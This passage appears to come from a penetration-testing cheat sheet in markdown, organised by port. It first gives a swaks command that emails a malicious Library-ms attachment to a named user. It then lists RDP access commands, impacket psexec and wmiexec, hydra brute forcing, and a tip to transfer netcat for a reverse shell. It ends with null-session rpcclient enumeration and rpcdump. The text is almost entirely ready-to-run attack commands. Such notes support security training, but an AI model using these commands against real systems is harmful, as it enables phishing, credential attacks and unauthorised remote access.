 ```

1. sudo swaks -t jim@relia.com --from maildmz@relia.com --attach @config.Library-ms --server 192.168.223.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap




```

### <ins>3389 - RDP</ins>

```
If you get RDP, first transfer nc.exe (windows) or netcat (Linux) to get the shell back on our attacking machine.

1. Xfreerdp: xfreerdp /v:<IP> /u:<USER> /d:<DOMAIN> /p:<PASS> +clipboard /dynamic-resolution /drive:/opt,share

2. rdesktop -u <username> <IP>

3. rdesktop -d <domain> -u <username> -p <pass> <IP>

4. psexec: impacket-psexec <user>:<pass>@<IP> 

5. smbclient: smbclient \\\\<IP>\\ -U <user> 

6. Nmap: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>

7. Bruteforce: hydra -L <users.txt> -p <pass.txt> <IP> rdp

8. smbmap: smbmap -d <domain> -u <user> -p <pass> -H <IP> 

9. wmiexec: impacket-wmiexec <domain>/<user>:<pass>@<IP>


```

### <ins>135/593 - RPC</ins>

```

1. Null login: rpcclient <IP> -U ''

2. Try enumdomusers, enumdomgroups, and querydispinfo to enumerate once you are in
rpcclient -U "" -N <IP>

3. Try without a password: rpcclient -U "" <IP>

4. Dump: impacket-rpcdump -p 135 <IP>

```
